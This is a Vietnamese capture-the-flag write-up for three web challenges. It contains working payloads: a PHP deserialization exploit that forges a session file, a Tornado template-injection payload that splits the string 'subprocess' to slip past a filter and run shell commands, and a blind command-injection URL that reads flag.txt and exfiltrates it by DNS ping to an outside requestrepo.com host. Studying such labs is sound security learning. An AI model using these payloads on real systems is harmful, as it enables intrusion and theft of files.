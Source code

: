 # LUCKY BOIZ

## PHÂN TÍCH

Đây là một bài về lỗi php deserialize.

``` 
if(isset($_SESSION["user"])){
    if($_SESSION["user"]==="santa_claus ")  echo "".$flag;
}
```
Ta thấy để có flag thì $_SESSION["user"] phải bằng với "santa_claus "

Bài này nó cho phép ta gửi 1 tham số là ser trong get request sau đó deserialize giá trị này.
```
if (isset($_GET['ser'])) unserialize($_GET['ser']);
```
Đây là class secret mà để cho , giờ ta tìm cách để sau khi unserialize ta có $_SESSION["user"] = "santa_claus "

![](images/2021-12-25-06-55-04.png)

```
   __toString sẽ được gọi khi object được xử lí như một string 

   __destruct sẽ được gọi khi một object bị huỷ đi or không còn đƯợc sử dụng 

   Tham khảo: https://www.php.net/manual/en/language.oop5.magic.php

```
Và mục tiêu của ta là ghi vào file /tmp/sess_PHPSESSIONID vì file này lưu những giá trị của biến $_SESSION (mỗi user sẽ có một cái khác nhau) và thay đổi nó thành giá trị "santa_claus ". Và định dạng được lưu trong file này là dạng serialize

Vd: nếu $_SESSION["user"] = "d47" thì nội dung của file sẽ là: `user|s:3:'d47';`


## KHAI THÁC

```
<?php
class secret {
}

$s = new secret();
$s->yoursecret = $s; // Để trigger hàm __toString nó sẽ trả về kết quả là $secret1 sẽ bằng $secret
$s->descript = "user|s:12:'santa_claus ';"; // Nội dung của file sesion mà ta muốn ghi
$s->filename = "sess_eabe6fc0553da759da5383b2d5d24e9d"; // Tên file sẽ được ghi vào

var_dump(serialize($s)); 
```
` FLAG: ChristCTF{Nô-en-Zui-zẻ-nhe!,Mấy-bạn-có-gấu-chưa-chứ-tui-có-gấu-rồi-đó} flag gây tổn thương sâu sắc đến ae đang chơi :((`

# Mini Con cu lay tờ 

## PHÂN TÍCH

Đề cho ta một cái ô input và ta sẽ nhập giá trị và sau đó sẽ tính toán kết quả trả về, sau một hồi fuzz thì mình thấy nó dính SSTI, mà phía backend đang code bằng python . Lúc đầu mình bị mắc chỗ này lâu vc, vì nghĩ là nó đang sài template là jinja2, nhưng méo phải nó đang sài tornado

Vậy giờ kiếm payload của thằng này để lấy flag thôi.

## KHAI THÁC

` PAYLOAD: eval('__import__("subpr"+"ocess").getoutput("ls")')` do đề filter chữ subprocess nên ta cộng chuỗi ở đấy để bypass

![](images/2021-12-25-07-10-56.png)

` FLAG: ChristCTF{M1N1_G1FT_4_XMA5} `

# CaptureME

## PHÂN TÍCH

Bài này chỉ có endpoint duy nhất nên ta chỉ cần tập trung vào mình nó.

![](images/2021-12-25-07-17-32.png)



Mình thấy cái hàm `inetChecksite` này khá lạ và nó thuộc package `systeminformation`, kiểm tra version của nó trong file `package.json`, sau đó gu gồ , thì thấy thằng này có dính lỗi `command injection`. Nhưng trong bài này là dạng `blind commnad injection` vì output sẽ không được trả ra.


Tới đây mình nghĩ sẽ tạo một reverse-shell, nhưng đều failed vì trên phía server đã chặn hết các giao thức. Ban đầu mình sử dụng curl để gửi request đến server của mình thì ok, nhưng sau đó dùng curl để upload file `flag.txt` thì đã bị chặn or filter.
Sau một hồi fuzz thì mình tìm đến `DNS`, vì hầu như ứng dụng web nào cũng đều hỗ trợ giao thức `DNS`. 


Nhưng mà loay hoay một hồi mình sài lệnh nslookup, dig, host, blabla nó vẫn ko work. Cuối cùng sài lệnh `ping` thì lại oke .
## EXPLOIT

` PAYLOAD: http://45.119.84.224:4000/CaptureSite?url[]=$(ping%20`cat%20flag.txt`.ekiajtf3.requestrepo.com)`

` FLAG: ChristCTF{R3v3r53_5h3ll_i5_v3ry_345y_5738246dhcbw}`

### Cuối cùng xin cảm ơn câu lạc bộ ATTT của đại học PTIT đã tạo ra sân chơi hữu ích vào đúng dịp Noel, để ae ko có gấu vào chơi cho đỡ buổn.